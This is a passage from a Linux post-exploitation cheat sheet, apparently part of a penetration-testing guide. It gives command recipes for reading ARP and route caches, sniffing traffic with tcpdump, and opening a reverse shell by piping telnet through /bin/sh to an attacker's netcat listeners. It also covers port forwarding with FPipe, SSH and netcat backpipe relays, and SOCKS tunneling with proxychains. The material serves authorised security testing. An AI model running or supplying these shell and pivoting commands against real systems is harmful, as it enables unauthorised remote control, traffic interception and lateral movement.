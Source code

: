 What's cached? IP and/or MAC addresses

```text
arp -e
route
/sbin/route -nee
```

Is packet sniffing possible? What can be seen? Listen to live traffic

```text
# tcpdump tcp dst [ip] [port] and tcp dst [ip] [port]
tcpdump tcp dst 192.168.1.7 80 and tcp dst 10.2.2.222 21
```

Have you got a shell? Can you interact with the system?

* [http://lanmaster53.com/2011/05/7-linux-shells-using-built-in-tools/](http://lanmaster53.com/2011/05/7-linux-shells-using-built-in-tools/)

```text
nc -lvp 4444    # Attacker. Input (Commands)
nc -lvp 4445    # Attacker. Ouput (Results)
telnet [atackers ip] 44444 | /bin/sh | [local ip] 44445    # On the targets system. Use the attackers IP!
```

Is port forwarding possible? Redirect and interact with traffic from another view

* rinetd - [http://www.howtoforge.com/port-forwarding-with-rinetd-on-debian-etch](http://www.howtoforge.com/port-forwarding-with-rinetd-on-debian-etch)
* fpipe

```text
# FPipe.exe -l [local port] -r [remote port] -s [local port] [local IP]
FPipe.exe -l 80 -r 80 -s 80 192.168.1.7
```

* SSH

```text
# ssh -[L/R] [local port]:[remote ip]:[remote port] [local user]@[local ip]
ssh -L 8080:127.0.0.1:80 root@192.168.1.7    # Local Port
ssh -R 8080:127.0.0.1:80 root@192.168.1.7    # Remote Port
```

* mknod backpipe

```text
# mknod backpipe p ; nc -l -p [remote port] < backpipe  | nc [local IP] [local port] >backpipe
mknod backpipe p ; nc -l -p 8080 < backpipe | nc 10.1.1.251 80 >backpipe    # Port Relay
mknod backpipe p ; nc -l -p 8080 0 & < backpipe | tee -a inflow | nc localhost 80 | tee -a outflow 1>backpipe    # Proxy (Port 80 to 8080)
mknod backpipe p ; nc -l -p 8080 0 & < backpipe | tee -a inflow | nc localhost 80 | tee -a outflow & 1>backpipe    # Proxy monitor (Port 80 to 8080)
```

Is tunneling possible? Send commands from local machine to remote

```text
ssh -D 127.0.0.1:9050 -N $username@$ip 
proxychains ifconfig
```
